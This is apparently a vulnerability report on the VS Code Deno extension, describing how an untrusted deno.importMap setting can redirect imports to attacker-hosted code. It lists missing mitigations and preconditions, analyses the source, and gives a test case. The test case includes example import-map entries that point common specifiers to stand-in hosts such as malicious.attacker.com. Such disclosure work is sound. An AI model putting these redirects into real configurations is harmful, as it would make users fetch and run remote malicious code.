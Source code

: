 * Missing Mitigations:
    - **Validation of `deno.importMap` source:** The extension should validate the source of the `deno.importMap` file. If it's a remote URL, consider warning the user about the potential risks before using it.
    - **URL Validation in Import Maps**: Implement validation for URLs specified in `deno.importMap`. This could involve domain whitelisting/blacklisting, and scheme validation to restrict import map URLs to specific schemes (e.g., `https:`).
    - **User Warning for Import Map Redirections**: When a workspace with a `deno.importMap` is opened, and the import map contains redirections to external domains, display a warning to the user. This warning should clearly explain the risks associated with import map redirections and advise caution.
    - **Configuration Option to Disable/Restrict Import Maps**: Provide a configuration setting that allows users to disable or restrict the usage of `deno.importMap` entirely or to limit its functionality.
    - **Content Security Policy (CSP) for import maps:** If feasible, explore using CSP mechanisms to restrict the domains from which import maps can be loaded, or restrict the types of URLs allowed in import maps.
    - **Sandboxing or Isolation:**  Investigate sandboxing or isolating the module resolution and execution processes that utilize the import map, to limit the impact of potentially malicious code loaded through a compromised import map.

* Preconditions:
    1. The victim must have the VS Code Deno extension installed and enabled in their workspace.
    2. The victim must be tricked into configuring the `deno.importMap` setting to point to a malicious import map file, either manually or by opening a workspace with a pre-configured malicious setting.
    3. The user must open or create a Deno file within this workspace that contains an import statement using a specifier redirected in the malicious `deno.importMap`.

* Source Code Analysis:
    1. **`client/src/extension.ts`**:
        - In `clientOptions.initializationOptions`, the extension reads the `denoConfiguration` which includes the `deno.importMap` setting from VS Code workspace configuration and sends it to the Deno Language Server during initialization.
    2. **`client/src/debug_config_provider.ts`**:
        - The `DenoDebugConfigurationProvider` in `#getAdditionalRuntimeArgs` reads `settings.importMap` which comes from `clientOptions.initializationOptions` and passes the `deno.importMap` setting directly to the Deno CLI when debugging.
    3. **Documentation**:
        - `README.md` and `docs/workspaceFolders.md` confirm the existence and purpose of the `deno.importMap` setting, describing it as equivalent to using `--import-map` on the command line.
    4. **Absence of Validation**:
        - By reviewing the code, particularly in `client/src/extension.ts` and `client/src/debug_config_provider.ts`, there is no visible code that validates the source or content of the `deno.importMap` file. The extension appears to trust the user-provided path and uses it directly.

* Security Test Case:
    1. **Attacker Setup:**
        - Create a malicious JavaScript/TypeScript file (e.g., `evil_module.ts`) hosted on a publicly accessible web server with code intended to be executed on the victim's machine.
        - Create a malicious `import_map.json` file (e.g., `malicious_import_map.json`) also hosted on a publicly accessible web server. This import map redirects a common module specifier to the attacker's malicious file (e.g., `"std/http/server.ts": "https://malicious.attacker.com/evil_module.ts"` or `"lodash": "http://attacker.example.com/malicious_lodash.js"`).
        - Alternatively, prepare a malicious workspace with these files for distribution.
    2. **Victim Setup:**
        - Open VS Code and create a new empty workspace or open an existing Deno project.
        - Enable the Deno extension for the workspace.
        - In VS Code settings for the workspace, set the `deno.importMap` setting to the URL of the attacker's malicious import map or open the malicious workspace.
        - Create a simple Deno file (e.g., `test.ts` or `main.ts`) in the workspace that imports a module that is redirected by the malicious import map (e.g., `import * as server from "std/http/server.ts";` or `import _ from "lodash";`).
    3. **Triggering the Vulnerability:**
        - Open the `test.ts` file in VS Code.
        - The Deno extension will attempt to type check, lint, or provide code completion.